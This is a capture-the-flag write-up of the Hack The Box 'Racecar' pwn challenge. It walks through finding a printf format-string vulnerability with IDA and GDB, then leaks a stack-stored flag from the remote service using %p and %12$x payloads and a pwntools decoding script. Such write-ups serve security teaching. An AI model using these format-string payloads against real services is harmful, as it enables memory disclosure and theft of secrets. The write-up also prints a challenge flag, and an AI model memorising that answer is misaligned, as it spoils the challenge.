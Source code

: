 ```yaml
---
title: "HTB - Racecar [ PWN ]"
date: 2022-02-27T18:39:55-05:00
draft: false
---
```


Before starting the vulnerability search, we must first perform a basic analysis.

![image](https://user-images.githubusercontent.com/88755387/142025252-e61b2429-06f9-4464-94d7-e3cc8e7507e4.png)

If we look at the strings of the executable and filter by the word 'flag' we realize that there is a file called flag.txt which we assume is hidden.

![image](https://user-images.githubusercontent.com/88755387/142025391-0d68b387-fb14-46ab-948d-345e326b67a9.png)

We are going to debug the executable with the IDA tool.

![image](https://user-images.githubusercontent.com/88755387/142025485-6ad74b6f-29cc-400c-83aa-9f21c3f19d26.png)

Inside the `car_menu` function we have a file called `flag.txt` which will only be opened if the program flow enters `car_menu:loc_FC`. We know this because at that function a call is made to the `_printf` function after 'winning the race'.

Let's see what address the `_printf` function has:

![image](https://user-images.githubusercontent.com/88755387/142025864-4fa8907e-6335-42cc-a400-9be503ae2e00.png)

Before we continue we are going to create a file called 'flag.txt' as the one the program is looking for to read in the same directory where we are going to run the binary.

``` 
echo 'AAAA' > flag.txt
```

We run the binary in GDB and put a breakpoint in the vulnerable function `_printf`:

![image](https://user-images.githubusercontent.com/88755387/142026049-dfe69c2f-3ba4-48e9-8677-7f32f91c4da7.png)

Now we run the binary and enter 40x `%p` to display more information: 

```
gdb-peda$ run
Name: sth
Nickname: sth
> 2
> 1
> 2
> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

![image](https://user-images.githubusercontent.com/88755387/142026262-33deb92a-7566-47e2-a058-e2fd67259d86.png)

At the 12th position, there is a beginning of `flag.txt` — `AAAA` string which was input before. It seems like the flag is stored on the stack.

Now we have to leak the flag from the remote service. We use [direct parameter access input format string](https://kevinalmansa.github.io/application%20security/Format-Strings/) `%12$x` to leak `flag.txt` from a remote system.

```
nc 104.248.169.123 31242
[ ... ]
> %12$x
```

![image](https://user-images.githubusercontent.com/88755387/142026727-f38db53b-bb06-40c0-8c19-4a4bdb7685b0.png)

If we convert them to ASCII we will find the beginning of the flag:

```
7b425448 -> {BTH
4854427b -> HTB{
```

The next step is reversing the flag. As we know that the flag is between two '{}' we will look for the value of the closing brace in hexadecimal.

```
{ -> 7b
} -> 7d
```

Now that we know its value we will reverse the bytes that are inside the braces.

```
%x%x%x%x%x%x%x%x%x%x%x---FLAG: %p%p%p%p%p%p%p%p%p%p%p ---
```

![image](https://user-images.githubusercontent.com/88755387/142026897-d3eb1187-6f89-4b88-9aeb-ad6c30199a56.png)

The last thing left is to create a script to view the flag in ASCII:

```python
from pwn import *

flag = '0x7b4254480x5f7968770x5f6431640x34735f310x745f33760x665f33680x5f67346c0x745f6e300x355f33680x6b6334740x7d213f'
decoded_flag = []

for element in flag.split('0x')[1:]:
 decoded_flag.append(p32(int('0x' + element,16)))
 
print (b''.join(decoded_flag))
```

![image](https://user-images.githubusercontent.com/88755387/142027222-c9604f62-37df-4a97-996a-0b5eeb5d6241.png)
